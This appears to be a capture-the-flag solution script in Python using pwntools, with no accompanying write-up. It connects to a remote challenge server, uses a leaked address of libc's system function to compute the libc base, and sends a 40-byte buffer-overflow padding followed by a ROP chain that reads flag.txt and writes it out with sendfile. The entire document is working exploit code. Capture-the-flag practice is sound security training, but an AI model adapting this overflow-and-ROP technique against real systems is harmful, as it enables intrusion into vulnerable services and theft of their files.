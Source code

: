 
```python
from pwn import *

context.binary = ELF('chall')

libc = ELF("libc.so.6")
io = remote('challs.pwnoh.io', 13371)

io.recvuntil(b"it's at ")
system_addr = int(io.recvline().strip(), 16)
libc.address = system_addr - libc.symbols["system"]

rop = ROP(libc)
flag_buff = libc.bss()

rop.gets(flag_buff)
rop.open(flag_buff, 0)
rop.sendfile(1, 3, 0, 50)

io.sendline(b'a' * 40 + rop.chain())
io.sendlineafter(b"else", b"flag.txt")
io.interactive()
```
